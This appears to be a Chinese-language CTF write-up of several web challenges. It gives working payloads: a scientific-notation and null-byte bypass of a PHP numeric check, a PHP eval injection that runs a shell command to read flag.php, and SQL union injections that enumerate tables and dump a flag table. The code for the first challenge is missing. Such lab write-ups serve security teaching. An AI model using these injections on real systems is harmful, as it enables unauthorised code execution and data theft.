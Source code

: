 ```php
```
拿到flag的条件是
1. 不为空，切不能是一个数值型数字，包括小数（由is_numeric函数判断）。
2. 不能是一个回文数（is_palindrome_number判断）。
3. 该数的反转的整数值应该和它本身的整数值相等。
目前已知的两种解法是
1. 利用intval函数溢出绕过
2. 用科学计数法构造0=0
用第二种方法构造的payload如下
```
number=0e-0%00
```
flag:CTF{b72dd89e71108245fe21a4c1849ae668}
参考–>[传送门](http://www.xianxianlabs.com/2018/07/07/%E5%AE%9E%E9%AA%8C%E5%90%A7-ctf-%E9%A2%98%E7%9B%AE%E4%B9%8B-web-writeup-%E9%80%9A%E5%85%B3%E5%A4%A7%E5%85%A8-1/)

### W3-web2
```php
include "flag.php";
error_reporting(0);
show_source(__FILE__);

$a = @$_REQUEST['hello'];
eval("var_dump($a);");
```
php注入，payload如下
```
);echo%20`cat%20./flag.php`;//
```
flag:flag{92853051ab894a64f7865cf3c2128b34}
### W3-web5
![7](/img/2019-04-19/7.png)
这道题是bugku上的一道注入题，没有过滤，payload如下
```
id=-1' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema = database()#
id=-1' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name = 'fl4g'#
id=-1' union select 1,2,3,(select * from fl4g)#
```